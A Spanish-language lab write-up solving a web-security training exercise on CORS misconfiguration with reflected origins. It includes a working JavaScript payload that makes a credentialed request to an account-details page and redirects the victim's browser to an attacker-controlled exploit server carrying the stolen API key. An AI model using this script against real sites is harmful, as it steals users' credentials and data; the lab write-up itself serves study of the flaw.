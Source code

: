 Ya con la comprobación inicial realizada, nos centramos ahora en desplegar el exploit en el servidor de ataque. El objetivo es automatizar el robo de la clave de API mediante una petición ‘**XMLHttpRequest**‘ con credenciales activadas (**withCredentials**). Si el origen malicioso es reflejado en la respuesta como válido, y se permite el acceso a la respuesta gracias al encabezado ‘**Access-Control-Allow-Origin**‘, el navegador de la víctima nos dejará leer los datos sensibles y redirigirlos al log del exploit server.

Este enfoque demuestra cómo una validación incorrecta del origen puede dejar expuestos endpoints sensibles incluso cuando se ha intentado limitar el acceso con mecanismos CORS mal implementados.

Solucion
si nosotro agregamos origin y una direccion X si le damos a send vemos que nos esta redirigiendo a la pagina web que nosotros pusimos
![Pasted image 20250728202600.png](imagenes/Pasted image 20250728202600.png)
y esto se presenta como un riesgo ya que esto se puede utilizar para cambiar informacion de modo que si el usuario visita account Details que en realidad es nuestra pagina web nos mande la informacion de apikey
entonces para ello vamos a realizar un script el cual nos de informacion sobre el usuario que queremos obtener su apikey
<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = "https://exploit-0aa000a0039d1754808d398f01cf00a1.exploit-server.net/?apikey=" + btoa(req.responseText);
    };
    req.open("GET","https://0a65006f036117a580193a9e00d300ad.web-security-academy.net/accountDetails", true);
    req.withCredentials = true;
    req.send();
</script>

Entonces en nuesto exploit server ejecutamos este codigo y nos vamos a los logs
![Pasted image 20250728204549.png](imagenes/Pasted image 20250728204549.png)
obtuvimos la apikey como lo visualizamos
![Pasted image 20250728204710.png](imagenes/Pasted image 20250728204710.png)
